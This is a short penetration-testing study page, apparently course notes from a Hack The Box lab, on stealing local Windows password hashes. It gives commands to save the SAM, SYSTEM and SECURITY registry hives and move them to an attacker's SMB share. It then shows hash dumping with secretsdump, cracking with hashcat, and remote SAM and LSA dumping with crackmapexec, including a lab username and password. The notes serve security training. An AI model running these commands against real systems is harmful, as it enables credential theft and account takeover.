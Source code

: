 # Local Windows Password Attacks

## SAM database

{% hint style="warning" %}
<mark style="color:red;">**For non-domain joined Windows system**</mark>
{% endhint %}

Here are our target registry hives:

* <mark style="color:red;">**hklm\sam :**</mark> Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
* <mark style="color:red;">**hklm\system :**</mark> Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
* <mark style="color:red;">**hklm\security :**</mark> Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

### Create backup of the hives (cmd launched as admin):

{% hint style="info" %}
Technically we will only need <mark style="color:green;">**hklm\sam**</mark> & <mark style="color:green;">**hklm\system**</mark>, but <mark style="color:green;">**hklm\security**</mark> can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.
{% endhint %}

```powershell
C:\WINDOWS\system32 > reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32 > reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32 > reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

### Transfer the backup files to our attacking machine

#### Creating an SMB share (smbserver.py)

```bash
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData <local-destination>
```

#### Moving the copies:

```powershell
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

### Dumping the hashes from hives (secretsdump.py)

```bash
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)

```

### Cracking the dumped hashes

```bash
$ sudo hashcat -m 1000 NT-hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

{% hint style="success" %}
Done for the local part for now. This could be done remotely when we have local admin priv for a user. The remote command is below
{% endhint %}

```bash
$ crackmapexec smb <target-ip> --local-auth -u <user> -p <pass> --sam
```

### Remote Dumping and LSA secrets

{% hint style="danger" %}
Local admin privileges required
{% endhint %}

```bash
$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```



## LSASS service

## AD & NTDS.dit dictionnary

## Creds Hunting







